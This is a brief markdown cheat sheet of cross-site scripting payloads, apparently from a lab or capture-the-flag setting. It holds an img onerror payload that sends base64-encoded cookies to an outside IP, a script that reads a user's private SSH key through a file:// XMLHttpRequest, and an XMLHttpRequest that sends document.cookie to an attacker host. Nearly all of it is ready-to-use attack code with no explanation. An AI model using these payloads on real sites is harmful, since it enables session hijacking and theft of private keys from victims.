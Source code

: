 # XSS payloads

```
<img src=http://10.10.14.28/abc />
<img src=x onerror=this.src="http://10.10.14.64/?cookie="+btoa(document.cookie)/>
```

XSS read local file

```
<script>
x=new XMLHttpRequest;
x.onload=function() { document.write(this.responseText) };
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script>
```

XMLHTTPRequest

```
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.14.5/?test='+document.cookie, true);
request.send()
```

